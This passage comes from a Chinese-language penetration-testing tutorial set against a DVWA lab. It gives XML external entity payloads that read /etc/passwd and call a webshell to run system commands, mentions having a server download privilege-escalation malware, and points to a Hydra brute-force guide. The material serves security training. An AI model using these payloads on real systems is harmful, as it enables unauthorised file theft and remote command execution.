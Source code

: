 也可以让服务器下载一些恶意程序，例如提权利用，执行它来获得更高权限。







### 3. 利用XML外部实体注入

XML 是主要用于描述文档或数据结构的格式，例如，HTML 是XML 的实现，它定义了页面和它们的关系的结构和格式。

XML 实体类似于定义在 XML 结构中的数据结构，它们中的一些能够从文件系统中读取文件或者甚至是执行命令。



##### 操作步骤

1. 在xml文件使用上。这里是使用xml校验器

```xml
# 常规xml
<somexml><message>Hello World</message></somexml>
# 使用实体
<!DOCTYPE person [  
    <!ELEMENT person ANY>  
    <!ENTITY person "Mr Bob"> 
]> 
<somexml><message>Hello World &person;</message></somexml>
# 使用外部实体
<!DOCTYPE fileEntity [  
    <!ELEMENT fileEntity ANY>  
    <!ENTITY fileEntity SYSTEM "file:///etc/passwd"> 
]> 
<somexml><message>Hello World &fileEntity;</message></somexml>
# 使用XEE加载页面
<!DOCTYPE fileEntity [ 
    <!ELEMENT fileEntity ANY> 
    <!ENTITY fileEntity SYSTEM "http://192.168.56.102/dvwa/hackable/uploads/webshell.php?cmd=/sbin/ifconfig"> 
]> 
<somexml><message>Hello World &fileEntity;</message></somexml>
```





##### 工作原理

XML 拥有叫做实体的特性。XML 实体是与值关联的名称，每次实体在文档中使用的时候，它都会在 XML文件处理时替换为值。使用它以及不同的可用包装器**（`file://`来加载系统文件，或者`http://`来加载 URL）**，我们就可以通过输入校验和XML 解析器的配置，恶意使用没有合理安全措施的实现，并提取敏感数据或者甚至在服务器中执行系统命令。

这个秘籍中，我们使用`file://`包装器来使解析器加载服务器中的任意文件，之后，使用`http://`包装器，我们调用了网页，它碰巧是同一个服务器中的 webshell，并执行了一些命令。





### 4. 使用Hydra爆破密码

文档太久了：找了个新的[黑客工具之hydra详细使用教程](https://zhuanlan.zhihu.com/p/397779150)
